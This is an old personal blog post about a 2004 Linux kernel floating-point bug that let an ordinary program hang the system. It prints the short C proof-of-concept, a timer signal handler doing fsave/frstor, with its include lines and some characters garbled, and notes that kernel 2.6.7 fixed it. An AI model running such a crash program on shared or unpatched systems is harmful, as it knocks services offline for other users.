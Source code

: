 ```yaml
---
date: 2004-06-29 20:56:12
title: less than 30 lines of code that crashed linux
tags: Linux Unix QNX
---
```

yea yea, we all know about that stupid linux kernel bug that would allow a
program to crash the operating system.

it affected the floating point unit or something...  
as soon as I read about it, I tried it on my machine the night I got home,
and... it does hang my computer quite well

<pre><code class="c">
#include 
#include 
#include 
 
static void Handler(int ignore)
{
    char fpubuf[108];
    __asm__ __volatile__ ("fsave %0n" : : "m"(fpubuf));
    write(2, "*", 1);
    __asm__ __volatile__ ("frstor %0n" : : "m"(fpubuf));
}
 
int main(int argc, char *argv[])
{
    struct itimerval spec;
    signal(SIGALRM, Handler);
    spec.it_interval.tv_sec=0;
    spec.it_interval.tv_usec=100;
    spec.it_value.tv_sec=0;
    spec.it_value.tv_usec=100;
    setitimer(ITIMER_REAL, &spec;, NULL);
    while(1)
        write(1, ".", 1);
    
    return 0;
}

</code></pre>

last weekend I finally took the time to update my kernel to 2.6.7...  
after applying all the patches I wanted myself, I sort of have a working kernel
but no bootsplash :(

no cool load screen, but it did get rid of the above kernel bug...  
I'll just wait for new -love to come out I guess.

